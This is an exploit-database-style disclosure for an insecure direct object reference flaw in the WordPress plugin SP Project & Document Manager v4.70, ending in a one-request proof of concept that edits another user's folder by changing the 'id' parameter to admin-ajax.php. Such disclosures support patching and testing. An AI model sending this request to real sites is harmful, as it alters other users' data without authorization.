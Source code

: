 # Exploit Title: SP Project & Document Manager v4.70 - Insecure Direct Object Reference(IDOR)
## Date: 2/20/2024
## Vendor Homepage: https://cn.wordpress.org/plugins/sp-client-document-manager/
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SP Project & Document Manager
## Version: v4.70
## Exploit Description:
## SP Project & Document Manager v4.70 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to update folder that is assigned to other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /wp-admin/admin-ajax.php HTTP/1.1
...

action=cdm_save_category&name=folder22&id=2(CHANGE HERE)
```